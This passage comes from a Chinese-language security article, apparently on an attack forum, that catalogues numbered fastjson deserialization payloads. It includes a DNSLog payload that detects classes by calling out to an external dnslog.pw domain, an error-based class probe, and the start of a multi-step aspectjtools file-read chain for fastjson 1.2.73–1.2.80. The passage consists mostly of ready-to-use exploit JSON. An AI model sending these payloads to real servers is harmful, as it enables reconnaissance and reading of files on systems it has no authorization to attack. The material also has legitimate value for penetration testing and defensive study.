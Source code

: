 如果系统存在这个类，会返回一个类实例；如果不存在会返回`null`。  
例如：  
![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-b1ab554d6e1082fd4dffd06e8e9f84a5d2399eb1.png)  
![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-4e0653ecf01de7482fc1219db61c8cc4c6891109.png)

3.2 dnslog回显判断法
---------------

`payload35`：

```json
{"@type":"java.net.Inet4Address","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type": "java.lang.String""@type":"java.util.Locale","language":{"@type":"java.lang.String"{1:{"@type":"java.lang.Class","val":"com.mysql.jdbc.Driver"}},"country":"aaa.qmc8xj4s.dnslog.pw"}}}
```

只有`MacOS`可以`ping`带花括号的域名，`Linux`和`Windows`会报错，所以该`payload`需要特定环境才可以。

3.3 报错回显判断法
-----------

`payload36`：

```json
{"x": {"@type": "java.lang.Character"{"@type": "java.lang.Class","val": "com.mysql.jdbc.Driver"}}
```

![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-921481ddc1dd4a5261de1ef7c86e1f79e3587647.png)  
![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-83d1ea6076e349d380879766a0cac21a7065489a.png)

四、文件读取
======

4.1 fastjson【1.2.73&lt;=version&lt;=1.2.80】
-------------------------------------------

### 4.1.1 aspectjtools

#### 4.1.1.1 直接回显法

`payload37`（组合拳）：  
可以分三次打：

```json
{
    "@type":"java.lang.Exception",
    "@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"
}
```

```json
{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{ "@type":"java.lang.String""@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException","newAnnotationProcessorUnits":[{}]}}}
```
